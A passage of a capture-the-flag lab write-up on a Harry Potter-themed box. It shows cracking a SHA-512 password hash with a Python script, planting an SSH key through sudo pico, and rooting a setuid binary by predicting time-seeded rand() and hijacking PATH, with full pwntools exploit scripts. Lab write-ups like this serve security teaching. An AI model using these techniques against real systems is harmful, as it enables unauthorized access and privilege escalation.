$ echo -n b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885 | wc -c
128
```

128 hex characters is 512 bits, so SHA-512 is a good candidate. We will use the wordlist built by applying hashcat's *best64* rules to the spell list found on the SMB server.

```bash
$ hashcat --force spellnames.txt -r /usr/share/hashcat/rules/best64.rule --stdout > best64-spells.txt
$ wc -l best64-spells.txt 
6237 best64-spells.txt
$ wc -l spellnames.txt 
81 spellnames.txt
```
So our list of 81 spells, has been expanded to over 6000. We can look at a few to get a feel for our new words:

```
avadakedavra
arvadekadava
AVADAKEDAVRA
Avadakedavra
avadakedavra0
avadakedavra1
avadakedavra2
avadakedavra3
avadakedavra4
-- snip --
```

This following python script will attempt to apply SHA512 to all 6000+ words to see if it matches our target.

```python
#!/usr/bin/env python3

import requests
import re
import json
from hashlib import sha512

with open('best64-spells.txt') as f:
    words = f.read().split('\n')

target = "b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885"

for word in words:
    if sha512(word.encode()).hexdigest() == target:
        password = word
        break

print(f"Password cracked to be: {password}")
```

And running it gets our password.

```
$ ./hash_crack.py
Password cracked to be: w******3
```

#### Login as user to web site

We can now try to use the `Harry Turner` username and the `w******3` password to login to the website. We get a hit and have one more message.



The message speaks to password reuse. So with the note about the linux account being the first name and password reuse, lets try and login as Harry.

### Access as First User

Since we know that SSH is running lets use our credentials to access the host.



Looking in Harry's home directory, we find the first flag!



### Enumerating the Host

We upload the amazing linpeas enumeration tool from [Github](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) to the target box.



After running linpeas, nothing jumps out but we are reminded to check `sudo -l`



Since we know Harry's password, we can see what `sudo` rights he has.



So the user harry can run the `pico` program as the user hermonine. Earlier we saw she like historical editors. Madeye Moody has told Harry and Hermonine about using `pico` when he was a wee lad. Officially, its a Unix system where `nano` is the open source version for GNU.

> The pico text editor is an alternative interactive text editor on UNIX computers which was developed at the University of Washington together with the pine email system

On this target, we see the binaries are the same.



Though [GTFObins](https://gtfobins.github.io/gtfobins/pico/) has a way to get a shell through `pico`, we can just read and write some files as `hermonine` to priv esc as her.

We will first see if hermonine has an SSH private key in her home directory. And if she does, we will "borrow" it. If she does not then we will create one and put the public key in her `authroized_keys` file. First we generate a key pair.



Now with the command, `sudo -u hermonine pico /home/hermonine/.ssh/authorized_keys` we are able to use the `^R Read File` command to read from `/dev/shm/key.pub`


and save this file to create an ssh backdoor.



Now we can `ssh` with our generated private key as hermonine.



Now as hermonine we can check out `/home/hermonine` and find the second flag file.



Running LinPeas as hermonine gives us a really interesting find. A setuid binary that is not normal.



We did not see this file before because only hermonine can see the contents of this folder.



You can also find it by using the following `find` command.



### Exploring the Suspicous Binary

Let's check out this priviledge program, `/svr/time-turner/swagger`



It is a root setuid x64 binary that is dynamically linked, not stripped, and appears to ask for a random number.

I like to use cutter for RE as it is a mix of radare2 and ghidra decompiler. So looking at this binary we see the main function call `rand()`, asks you to guess the value, and if you match it calls `impressive()`




In `impressive()` there is a call to `system()` with the argument of `uname -p`. So if we can get into the impressive function, I think we can exploit that. but before that we drop priviledges to the user with id of 0x0 (or root!)

### Exploit the Binary

Two steps to get privledge escalation to the user with id of 0x00, root.

We need to:

1. Crack the random number guess to get to `impressive()`
2. Exploit the `uname` call in `impressive()` to get a shell as `hermonine`

#### Crack the Random Number Guessing

Since the binary seeds the random number generator with `time(0)`, executing it twice really fast, should generate the same value. Since `time(0)` returns the number seconds since the epoch, all we have to do is be within the second as the previous call.

A simple bash trick should do that for us.



With a simple pwntools script (wait `pwntools` is installed on `castle`? *crazy*). You can read the input from the first execution and send it as the guess the second time.

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'error'

# First pass to get the number
p = process('/srv/time-turner/swagger')
p.sendline('1337');
p.readline()                  # Nope message
response = p.readline()       # Thinking message
answer = response.decode().split(' ')[-1].strip()
p.close()

# Second pass to get to impressive
p = process('/srv/time-turner/swagger')
p.sendline(answer)
print(p.readline())
print(p.readline())
p.close()
```



You can see what the output from `uname -p` is combined with the "architecture" output message.

#### Exploit the system call

Now that we can get into the `impressive()` function call, we can exploit the call to `system()` without using the full path to `uname -p`.

We will just copy `/bin/bash` into our current directory, rename it `uname` and then add the `$PWD` to the beginning of the `$PATH` variable.



Then we can put an `interactive()` call in our pwntools script, and have a shell.

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'error'

# First pass to get the number
p = process('/srv/time-turner/swagger')
p.sendline('1337');
p.readline()                  # Nope message
response = p.readline()       # Thinking message
answer = response.decode().split(' ')[-1].strip()
p.close()

# Second pass to get to impressive
p = process('/srv/time-turner/swagger')
p.sendline(answer)
p.interactive()
```




